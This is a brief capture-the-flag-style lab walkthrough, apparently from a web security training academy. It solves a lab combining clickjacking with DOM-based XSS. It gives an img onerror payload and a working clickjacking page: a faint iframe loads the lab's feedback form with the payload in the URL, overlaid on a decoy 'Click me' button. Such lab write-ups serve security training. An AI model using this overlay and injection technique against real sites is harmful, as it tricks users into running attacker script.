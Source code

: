 Title: Exploiting clickjacking vulnerability to trigger DOM-based XSS
Level: Practitioner
Desc: This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function. 

# Walkthrough: 

XSS payload: `<img src=1 onerror=print()>`

I can populate the field using url: 
<img width="1138" height="509" alt="image" src="https://github.com/user-attachments/assets/8301a499-c12b-4a12-8e9e-987f26788585" />

```
<style>
    iframe {
        position:relative;
        width: 400;
        height: 850;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 779;
        left: 50;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a6800f404df71258156027600f10008.web-security-academy.net/feedback?email=cvvv@gmail.com&subject=x&message=m&name=<img src=1 onerror=print()>"></iframe>
``` 
